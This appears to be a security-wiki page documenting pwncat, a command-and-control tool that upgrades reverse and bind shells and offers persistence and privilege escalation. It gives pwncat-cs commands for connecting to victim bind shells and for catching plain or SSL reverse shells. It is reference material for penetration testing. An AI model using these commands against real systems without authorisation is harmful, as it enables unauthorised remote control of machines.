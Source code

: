 pwncat is a [command and control](../security/c2.md) framework which turns a basic [reverse shell](../security/revshell.md) or [bind shell](../security/bindshell.md) into a fully-featured exploitation platform. After initial connection, the framework will probe the remote system to identify useful binaries natively available on the target system. It will then attempt to start a pseudoterminal on the remote host and provide you with raw terminal access.

On top of raw terminal access, pwncat can programmatically interact with the remote host alongside your terminal access. pwncat provides you with a local shell interface which can utilize your connection for enumeration, file upload/download, automatic persistence installation and even automated privilege escalation.

There are two main operating modes while interacting with a victim in pwncat: remote and local. At any given time, the prompt will include either `(local)` or `(remote)` to indicate the current mode. When using local mode, you have access to pwncat-specific commands such as upload, download, use, run and exit. In remote mode, you will have access to a platform-specific shell environment (e.g. bash or powershell).

To toggle between these modes, you can use the `C-d` key combination. This combination is intercepted by pwncat before being sent to the target when in remote mode. If you need to send a `C-d` combination directly to the target, you can use the `C-k` prefix. Prefixing `C-d` or `C-k` with `C-k` will tell pwncat to send the literaly `C-d` or `C-k` sequence to the target.

Some examples of its usage:

```bash
# netcat syntax
pwncat-cs 192.168.1.1 4444
# Full connection string
pwncat-cs connect://192.168.1.1:4444
# Connection string with assumed protocol
pwncat-cs 192.168.1.1:4444
```

!!! info
    In this case, the victim is running a raw bind shell on an open port. The victim must be available at an address which is routable.

You can also connect to a victim encrypted bind shell:

```bash
# Full connection string
pwncat-cs connect://192.168.1.1:4444
# ncat style syntax
pwncat-cs --ssl 192.168.1.1 4444
pwncat-cs --ssl 192.168.1.1:4444
```

!!! info
    In this case, the victim is running a ssl-wrapped bind shell on an open port. The victim must be available at an address which is routable (e.g. not NAT’d). The `ssl-connect` protocol provides this capability.

Or you can catch a victim rev shell:

```bash
# netcat syntax
pwncat-cs -lp 4444
# Full connection string
pwncat-cs bind://0.0.0.0:4444
# Assumed protocol
pwncat-cs 0.0.0.0:4444
# Assumed protocol, assumed bind address
pwncat-cs :4444
```

!!! info
    In this case, the victim was exploited in such a way that they open a connection to your attacking host on a specific port with a raw shell open on the other end. Your attacking host must be routable from the victim machine. This mode is accessed via the `bind` protocol.

Or even catch a victim encrypted rev shell:

```bash
# ncat style syntax
pwncat-cs --ssl --ssl-cert cert.pem --ssl-key cert.pem -lp 4444
# Full connection string
pwncat-cs ssl-bind://0.0.0.0:4444?certfile=/path/to/cert.pem&keyfile=/path/to/key.pem
# Auto-generated self-signed certificate
pwncat-cs --ssl -lp 4444
# Auto-generated self-signed certificate with explicit protocol
pwncat-cs ssl-bind://0.0.0.0:4444
```

!!! info
    In this case, the victim was exploited in such a way that they open an ssl connection to your attacking host on a specific port with a raw shell open on the other end. Your attacking host must be routable from the victim machine. This mode is accessed via the `ssl-bind` protocol.


